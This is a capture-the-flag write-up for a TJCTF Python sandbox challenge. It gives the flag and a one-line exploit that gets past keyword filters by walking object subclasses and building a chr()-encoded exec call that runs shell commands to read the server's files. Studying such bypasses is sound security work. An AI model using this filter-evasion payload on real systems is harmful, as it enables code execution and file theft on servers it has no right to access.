 # Outdated
<p align="center">
  <img src="Attachments/Description.png" />
</p>

## FLAG:
tjctf{oops_bad_filter_3b582f74}

## Solution
The challenge again provides its source code written in python. It comes with a site that allows the upload of python source code that is executed only after its validation. Validation takes place at different points in the source code. There are several functions that check for certain words and characters in the code we upload. Despite the checks, some exploits were possible. My exploit that worked is as follows commented step by step:

```python
().__class__.__base__.__subclasses__()[84]().load_module("builtins").__dict__[chr(101)+chr(120)+chr(101)+chr(99)](chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(32)+chr(111)+chr(115)+chr(59)+chr(111)+chr(115)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(34)+chr(99)+chr(97)+chr(116)+chr(32)+chr(117)+chr(112)+chr(108)+chr(111)+chr(97)+chr(100)+chr(115)+chr(47)+chr(42)+chr(59)+chr(99)+chr(97)+chr(116)+chr(32)+chr(42)+chr(34)+chr(41))
#we select python base functions.
#we take a function that loads modules
#let's load the builtins#let's make a dictionary of the functions.
#i want to execute the function "exec"
#let's cat all the files in the home
```

its execution prints on the screen all the files present including the flag.
